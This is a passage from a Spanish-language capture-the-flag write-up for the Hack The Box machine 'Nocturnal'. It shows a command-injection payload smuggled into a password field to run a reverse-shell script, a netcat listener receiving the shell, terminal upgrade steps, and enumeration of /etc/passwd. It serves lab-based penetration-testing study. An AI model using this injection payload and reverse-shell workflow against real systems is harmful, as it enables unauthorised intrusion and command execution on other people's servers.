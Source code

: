 
## Shell as `www-data`

Ahora la ejecutamos con `bash`, recuerda iniciar un listener con `netcat` por un puerto, en mi caso el `4444`

~~~ bash
password=test%0abash%09rev.sh&backup=
~~~

En mi caso, he configurado la conexión hacia mi puerto `4444`, al momento de enviar la solicitud maliciosa, habremos recibido la conexión

~~~ bash
nc -lvnp 4444
listening on [any] 4444 ...
connect to [10.10.14.237] from (UNKNOWN) [10.10.11.64] 52092
bash: cannot set terminal process group (874): Inappropriate ioctl for device
bash: no job control in this shell
www-data@nocturnal:~/nocturnal.htb$ hostname -I
hostname -I
10.10.11.64
~~~


## TTY Treatment

Haremos un tratamiento de la `tty` para poder operar con una consola más interactiva

~~~ bash
www-data@nocturnal:~/nocturnal.htb$ script /dev/null -c bash
script /dev/null -c bash
Script started, file is /dev/null
www-data@nocturnal:~/nocturnal.htb$ ^Z
[1]  + 112843 suspended  nc -lvnp 4444
root@parrot exploits # stty raw -echo; fg 
[1]  + 112843 continued  nc -lvnp 4444
                                      reset xterm
~~~

Para finalizar el tratamiento, asignaremos un valor a la variable de entorno `TERM` para poder limpiar la pantalla con `Ctrl + L`. Además ajustaremos las proporciones de la terminal

~~~ bash
www-data@nocturnal:~/nocturnal.htb$ export TERM=xterm
www-data@nocturnal:~/nocturnal.htb$ stty rows 44 columns 184
~~~


## System Enumeration

Ahora haremos una enumeración básica del sistema donde buscaremos vías potenciales mediante las cuales podamos escalar privilegios

~~~ bash
www-data@nocturnal:~/nocturnal.htb$ cat /etc/passwd | grep sh$
root:x:0:0:root:/root:/bin/bash
tobias:x:1000:1000:tobias:/home/tobias:/bin/bash
ispapps:x:1001:1002::/var/www/apps:/bin/sh
ispconfig:x:1002:1003::/usr/local/ispconfig:/bin/sh
~~~
